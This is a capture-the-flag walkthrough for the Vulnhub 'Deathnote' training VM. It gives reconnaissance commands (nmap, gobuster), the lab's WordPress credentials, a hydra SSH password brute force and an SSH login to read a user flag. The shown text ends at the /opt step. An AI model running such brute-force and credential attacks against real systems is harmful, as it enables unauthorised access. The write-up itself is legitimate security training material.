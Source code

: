 
# DEATHNOTE
#### Download the machine from vulnhub or go for the [link](https://download.vulnhub.com/deathnote/Deathnote.ova).
![deathnote vulnhub](https://user-images.githubusercontent.com/112984045/201843771-c3f68b39-9b6e-4df4-9eef-0d90fa1c8445.png)<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### ` After a successful setup go for the commands :`

## ENUMERATION :

```bash
netdiscover -i < interface >
```
![deathnote netdiscover](https://user-images.githubusercontent.com/112984045/201920948-904f4e4d-0ac8-42ac-bf79-49646b91c2f3.png)<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 -v < IP >
```
![deathnote nmap](https://user-images.githubusercontent.com/112984045/201921950-90d2d0a7-9879-4919-b4eb-397ba12743df.png)<br>
 ~ we can add -v argument for more verbose output.
 
  * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![deathnote portscanner](https://user-images.githubusercontent.com/112984045/201923393-7c7f0019-07c4-40cb-8f00-3ad50954bacd.png)
 ~ I prefer this tool because of its speed as you can see it just took 40 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 2
 * PORT NUMBERS : 22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 ![deathnote iponweb](https://user-images.githubusercontent.com/112984045/201925983-a0bcb8d9-91a8-4bf9-bcf1-67a0c31efb03.png)

 
 <br>
 
 * As the web-request is redirection to deathnote.vuln.. go for changing the host
 ```bash
 nano /etc/hosts
 ```
 * Add the ip and web domain<br>
 ![deathonte etchosts](https://user-images.githubusercontent.com/112984045/202195455-15b4f27b-efae-4331-8bf8-40886fcb5942.png)
<br>

```bash
 gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![deathnote gobuster](https://user-images.githubusercontent.com/112984045/202196928-a5a374e9-b12c-4146-bad0-a2b69c46696b.png)
```bash
gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirb/common.txt  -t 50
```
![deathnote gobuster common](https://user-images.githubusercontent.com/112984045/202197447-008f5b28-3b2e-41e4-85f3-cbd5325101ab.png)
<br>

* Web-request
```bash
http://< IP >/robots.txt
```
![deathnote robots](https://user-images.githubusercontent.com/112984045/202197893-4fdb3263-af51-4c5e-bb03-988b2e803244.png)<br>

`follow the lead`
```bash
http://< IP >/important.jpg
```
![deathnote importweb](https://user-images.githubusercontent.com/112984045/202199038-4d4e031e-c11d-4990-96bf-e84036559c65.png)
```bash
wget http://< IP >/important.jpg
```
![deathnote important crack](https://user-images.githubusercontent.com/112984045/202199212-ec1e495f-0b6a-46b8-84d2-0cd4a5ddc942.png)<br>
```bash
http://deathnote.vuln/wordpress/index.php/hint/
```
![deathnote hint](https://user-images.githubusercontent.com/112984045/202249653-4f9c4014-c6f3-4337-b4e1-6c547044314f.png)
![deathnote Lcomment](https://user-images.githubusercontent.com/112984045/202250763-74359e02-f4e5-482c-a7d3-f609176742d5.png)<br>

` I think i have found something else`
* PASSWORD :  iamjustic3
```bash
http://< IP >/wordpress/wp-admin
```
![deathnote adminpage](https://user-images.githubusercontent.com/112984045/202252487-37685b3e-fd85-4ef2-b1dd-e6df4387408e.png)


`It was a simple guess...`<br>
* USERNAME : Kire<br>
* PASSWORD : iamjustic3
<br>


![deathnote adminmedia](https://user-images.githubusercontent.com/112984045/202252864-f213d504-e0fb-4fba-b4af-c502a9ce51fb.png)<br>

 ![deathnote webnote](https://user-images.githubusercontent.com/112984045/202262434-46e427b8-b93f-4802-98a8-334af3e859f1.png)
 <br>
 
 ```bash
 wget < copied link >
 ```
 ![deathnote notes](https://user-images.githubusercontent.com/112984045/202262450-5038af71-b0ca-412a-a255-f30b6de2871f.png)
<br>

```bash
hydra -l l -P note.txt ssh://< IP >
```
![deathnote l](https://user-images.githubusercontent.com/112984045/202267251-08e7fc8a-d649-4b2e-bf4b-054135373a6e.png)

```bash
ssh l@< IP >
```
![deathnote ssh l](https://user-images.githubusercontent.com/112984045/202267838-6f78065c-e3b8-486c-a7dc-8975eff5c27e.png)
<br>

```bash
cat user.txt
```
![deathnote cat user](https://user-images.githubusercontent.com/112984045/202270033-a97517c9-fd6e-46e6-9ff8-3222ed3dc5a4.png)<br>

* Use the [link](https://www.tutorialspoint.com/execute_brainfk_online.php) to decode brainfuck 
![deathnote brainfuck](https://user-images.githubusercontent.com/112984045/202270063-23ed6650-9776-4fd7-985d-c946107280fe.png)

```bash
cd /opt
```
```bash
cat case.wav
```
![deathnote shell opt](https://user-images.githubusercontent.com/112984045/202354580-fb7ba709-29d3-4ba1-892d-a851f2d4e960.png)
![deathnote cyberchief](https://user-images.githubusercontent.com/112984045/202354738-14994187-1b59-44da-961f-f68431d98c91.png)

<br>


 
